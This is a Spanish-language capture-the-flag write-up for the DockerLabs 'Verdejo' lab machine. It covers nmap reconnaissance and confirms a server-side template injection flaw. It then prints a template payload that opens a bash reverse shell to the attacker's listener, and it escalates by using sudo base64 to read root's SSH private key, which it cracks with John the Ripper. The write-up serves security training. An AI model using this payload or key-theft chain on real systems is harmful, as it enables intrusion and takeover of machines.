









# 🟢 Verdejo


> 💡 NOTA:  En mi [repositorio dockerlabs](https://github.com/damcorbor/dockerlabs/tree/main/comandos)  suelo ir dejando una lista con los comandos, herramientas y servicios que he ido usando durante los laboratorios, y los explico un poco por si alguien quiere repasarlos o usarlos como referencia.
---

## 🕵️ Reconocimiento

Empezamos con un escaneo con **nmap** para identificar puertos y servicios activos.



El escaneo devuelve los puertos **22 (SSH)**, **80 (HTTP)** y **8089 (HTTP)** abiertos.

Al acceder a la IP por el puerto 80 aparece la página por defecto de Apache2, sin nada interesante ni en la vista ni en el código.



Accediendo por el puerto **8089**, se muestra una página sencilla. No hay nada útil en el código fuente, pero al pulsar el botón, se imprime el contenido del textarea directamente en pantalla.



Probamos si es vulnerable a **SSTI (Server Side Template Injection)**, una técnica que permite ejecutar código en el servidor si este interpreta contenido de plantillas sin validación. Para comprobarlo, insertamos una operación simple (`{{7*7}}`) en el textarea.

  


Como el servidor responde con `49`, confirmamos que es vulnerable.

Aprovechando esto, lanzamos una **reverse shell** desde el textarea, mientras ponemos nuestra máquina a la escucha.

``` 
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >&/dev/tcp/172.17.0.1/3344 0>&1\'').read() }}  
```



## ⬆️ Escalada de privilegios

Una vez dentro, ajustamos la shell y ejecutamos `sudo -l` para ver qué comandos podemos usar como root.


Vemos que podemos ejecutar el binario **base64** como root sin necesidad de contraseña. Con **GTFOBins** verificamos que se puede usar para leer archivos.


Ya que el puerto **22 (SSH)** estaba abierto, intentamos leer el contenido de `/root/.ssh/id_rsa`, copiamos la clave privada y la guardamos en nuestra máquina.


La clave tiene **passphrase**, así que usamos **John the Ripper** para crackearla.



Con la passphrase descubierta, ya podemos conectarnos como **root** por SSH.



Máquina comprometida 🔓

## 🏁 Conclusión

En este reto hemos visto:

- Identificación de una vulnerabilidad **SSTI** en una web personalizada.
- Ejecución de una **reverse shell** desde el navegador.
- Enumeración de permisos con `sudo -l` y uso del binario **base64** para leer archivos protegidos.
- Obtención y crackeo de la clave SSH de root para acceder con control total.


